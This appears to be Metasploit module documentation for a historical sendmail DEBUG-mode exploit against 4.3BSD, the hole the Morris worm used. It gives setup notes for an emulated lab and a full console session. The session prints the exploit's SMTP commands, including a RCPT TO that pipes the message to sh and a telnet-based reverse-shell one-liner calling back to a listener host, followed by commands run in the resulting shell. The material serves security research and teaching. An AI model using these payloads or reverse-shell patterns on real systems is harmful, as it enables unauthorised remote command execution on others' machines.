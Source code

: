 ## Introduction

This module exploits `sendmail`'s well-known historical debug mode to
escape to a shell and execute commands in the SMTP `RCPT TO` command.

This vulnerability was exploited by the Morris worm in 1988-11-02.
Cliff Stoll reports on the worm in the epilogue of *The Cuckoo's Egg*.

## Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

## Targets

```
Id  Name
--  ----
0   @(#)version.c       5.51 (Berkeley) 5/2/86
```

## Options

**RPORT**

Set this to the target port. The default is 25 for `sendmail`, but the
port may be forwarded when NAT (SLiRP) is used in SIMH.

**PAYLOAD**

Set this to a Unix command payload. Currently only `cmd/unix/reverse`
and `cmd/unix/generic` are supported.

## Usage

```
msf5 exploit(unix/smtp/morris_sendmail_debug) > options

Module options (exploit/unix/smtp/morris_sendmail_debug):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  127.0.0.1        yes       The target address range or CIDR identifier
   RPORT   25               yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.5      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   @(#)version.c       5.51 (Berkeley) 5/2/86


msf5 exploit(unix/smtp/morris_sendmail_debug) > run

[*] Started reverse TCP double handler on 192.168.1.5:4444
[*] 127.0.0.1:25 - Connecting to sendmail
[*] 127.0.0.1:25 - Enabling debug mode and sending exploit
[*] 127.0.0.1:25 - Sending: DEBUG
[*] 127.0.0.1:25 - Sending: MAIL FROM:<GmWE2vWEViR4CLhBWOOOUVSMjJEr2NymDveA>
[*] 127.0.0.1:25 - Sending: RCPT TO:<"| sed '1,/^$/d' | sh; exit 0">
[*] 127.0.0.1:25 - Sending: DATA
[*] 127.0.0.1:25 - Sending:  PATH=/bin:/usr/bin:/usr/ucb:/etc
[*] 127.0.0.1:25 - Sending: export PATH
[*] 127.0.0.1:25 - Sending: sh -c '(sleep 4197|telnet 192.168.1.5 4444|while : ; do sh && break; done 2>&1|telnet 192.168.1.5 4444 >/dev/null 2>&1 &)'
[*] 127.0.0.1:25 - Sending: .
[*] 127.0.0.1:25 - Sending: QUIT
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo zqhqKJD7trW0E0Lp;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "zqhqKJD7trW0E0Lp\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.1.5:4444 -> 192.168.1.5:64337) at 2018-10-20 14:08:03 -0500
[!] 127.0.0.1:25 - Do NOT type `exit', or else you may lose further shells!
[!] 127.0.0.1:25 - Hit ^C to abort the session instead, please and thank you

whoami
daemon
cat /etc/motd
4.3 BSD UNIX #1: Fri Jun  6 19:55:29 PDT 1986

Would you like to play a game?
```
